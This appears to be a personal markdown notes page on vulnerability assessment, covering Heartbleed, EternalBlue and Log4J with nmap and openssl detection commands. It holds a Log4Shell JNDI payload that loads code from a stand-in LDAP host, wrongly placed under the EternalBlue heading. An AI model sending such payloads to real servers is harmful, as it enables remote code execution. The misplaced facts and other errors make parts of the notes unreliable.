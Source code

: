 ```yaml
---
title: 'Vulnerability Assessment'
pubDate: 'May 12 2023'
slug: 'trip/vulnerability-assessment'
---
```


Risk Management -> Vulnerability Management -> Vulnerability Assessment -> Penetration Test

NIST: National Vulnerability Database

Fix machine vulnerability if that is identified in the risk management process

## OpenSSL Heartbleed (CVE-2014-0160)

Do not handle properly Heartbeat Extension packets, which allows remote attackes to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, by reading private keys.

**Anatomy:** We send a packet as the part of TLS entry so there is a TCP HandShake and the next layer above is the encription connection and as part of that public and private key for each side that will encript a shared private key that is simetric.

```bash

$nmap -sV --script ssl-enum-ciphers -p443 target

#TLSv1.0, TLSv1.1, TLSv1.2 vulnerable

$nmap -p443 --script ssl-heartbleed target

nc -v domain.com 80 # GET / HTTP/1.0

# util si el puerto 443 esta online
openssl s_client -connect domain.com:443 # GET / HTTP/1.0

```

## EternalBlue - MS17-010 (CVE-2017-0143)

**_${jndi:ldap://demo.local:1389/mycode}_**

Server fails to parse logged data as str and evaluates JNDI lookup, java naming and directory interface

```bash
# win 7 enterprise 7601
# script from nmap: smb-vuln-ms17-010
# EternalBlue attack SMBv1 server, BufferOverflow allows to RCE
$nmap -sV -O demo.local
autoBlue

```

## Log4J - (CVE-2021-44228)

Its useful for login in java.

Attacker can control log messages or log message parameters can execute code from LDAP servers

```bash
$nmap --sript log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p8080 172.17.42.1
```
